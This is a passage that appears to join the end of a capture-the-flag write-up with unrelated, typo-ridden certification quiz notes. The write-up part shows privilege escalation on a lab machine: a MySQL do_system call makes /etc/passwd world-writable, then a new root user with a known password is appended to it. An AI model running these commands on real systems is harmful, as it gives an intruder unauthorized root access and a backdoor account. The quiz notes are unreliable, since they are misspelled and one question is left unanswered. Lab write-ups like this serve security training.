 <div style="background-color: #1e2124; padding: 10px;">
mysql> <span style="color:red">select do_system('chmod 777 /etc/passwd');</span>
</div>
<br>

![image 19](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(19).png)

Let's add a new root to /etc/passwd:

<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/dev/shm$<span style="color:red"> openssl passwd taha</span>
</div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/dev/shm$ <span style="color:red">echo "root2:xv7ixp0AtMP7.:0:0:root:/root:/bin/bash" >> /etc/passwd</span>
</div>
<br>
<div style="background-color: #1e2124; padding: 10px;">
www-data@banzai:/dev/shm$ <span style="color:red">su root2</span>
</div>
<br>

>taha

![image 20](https://raw.githubusercontent.com/thehunt1s0n/media/main/Banzai/image%20(20).png)




------------------------------------------------------------------

>You have just attempted to perform DNS poisoning on the local network DNS server and did not succeed; you decide to launch an attack against routing tables instead.
Which of the following would NOT be an effective way of attempting to manipulate the routing table on the local network or through its gateway?

bogus OSDF

>Why is it so challenging to block packets from Remote Access Troans that use port 80 for network communications? Choose three.

-port 80 outbound is normally open on corporate firewalls

-to a firewall the trafic appears simply to be from an internal user making an innocuous  HTTP GET Request.

-Not all firewalls are capable of inspecting data in the HTTP data fields for evidence of tunneling.

>Which of the following statements would best describe the act of signing a message with a Digital Signature?

 -The sender creates a hash value of the message he wishes to send He uses his private key to encrypt the hash value.The message and the encrypted hash value are sent to the receiver.

 >One of the last steps taken by an attacker will be to configure permanent access to a compromised system.
However, the installation of a backdoor, installation of new processes, and changes to key files could be very quickly detected by an administrator.
What tool would assist the attacker in preventing the administrator from detecting changes to files, new processes that are running, or other signs that the system might have been compromised?
